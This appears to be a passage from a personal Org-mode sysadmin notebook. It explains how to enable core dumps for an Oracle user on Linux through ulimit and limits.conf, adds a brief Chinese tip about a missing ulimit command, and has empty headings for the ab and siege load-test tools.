    ssh oracle@ora-server
#+begin_example
    $ ulimit -a

    core file size          (blocks, -c) 0
    data seg size           (kbytes, -d) unlimited
    file size               (blocks, -f) unlimited
    pending signals                 (-i) 1024
    max locked memory       (kbytes, -l) 32
    max memory size         (kbytes, -m) unlimited
    open files                      (-n) 65536
    pipe size            (512 bytes, -p) 8
    POSIX message queues     (bytes, -q) 819200
    stack size              (kbytes, -s) 10240
    cpu time               (seconds, -t) unlimited
    max user processes              (-u) 16384
    virtual memory          (kbytes, -v) unlimited
    file locks                      (-x) unlimited
#+end_example
    Now, try (not as user root) to change the core file size to unlimited
#+begin_example
    $ ulimit -c unlimited
    -bash: ulimit: core file size: cannot modify limit: Operation not permitted
#+end_example
** Solution

        Check Environment for ulimit

        The first step is to check, that you don't set ulimit -c 0 in any shell configuration files for this user, for example in $HOME/.bash_profile or $HOME/.bashrc. Uncomment it if you have such an entry.

        #
        # Do not produce core dumps
        #
        # ulimit -c 0
         
        Globally enable Core Dumps

        This must be done as user root, usually in /etc/security/limits.conf
#+begin_example
        # /etc/security/limits.conf
        #
        # Each line describes a limit for a user in the form:
        #
        # <domain> <type> <item> <value>
        #
        *  soft  core  unlimited
#+end_example         
        Logoff and Logon again and set ulimit
#+begin_example
        ssh oracle@ora-server
        $ ulimit -c
        0
#+end_example
        Try to set the limit as user root first
#+begin_example
        su -
        ulimit -c unlimited
        ulimit -c
        unlimited
#+end_example
        Now you can set ulimit also for user oracle
#+begin_example
        su - oracle
        ulimit -c unlimited
        ulimit -c
        unlimited
#+end_example
    Perhaps the last step number 3 is not necessary, but we have figured out, that this is the way which always work. The core file size limitation is usually also set in different configuration files. If you want to enable cores, you can uncomment them.

    In /etc/profile (Redhat)
#+begin_example
    # No core files by default
    # ulimit -S -c 0 > /dev/null 2>&1
#+end_example
    In /etc/init.d/functions (Redhat)
#+begin_example
    # make sure it doesn't core dump anywhere unless requested
    # ulimit -S -c ${DAEMON_COREFILE_LIMIT:-0} >/dev/null 2>&1
#+end_example
    Now, from this current shell you can generate the core, so check ulimit before.
#+begin_example
    $ ulimit -a

    core file size          (blocks, -c) unlimited
    data seg size           (kbytes, -d) unlimited
    file size               (blocks, -f) unlimited
    pending signals                 (-i) 1024
    max locked memory       (kbytes, -l) 32
    max memory size         (kbytes, -m) unlimited
    open files                      (-n) 65536
    pipe size            (512 bytes, -p) 8
    POSIX message queues     (bytes, -q) 819200
    stack size              (kbytes, -s) 10240
    cpu time               (seconds, -t) unlimited
    max user processes              (-u) 16384
    virtual memory          (kbytes, -v) unlimited
    file locks                      (-x) unlimited
#+end_example
** ulimit: no command found
   应该当前用户使用的shell没有实现ulimit命令
   执行bash，然后就可以了
* load test tools
** ab

** siege
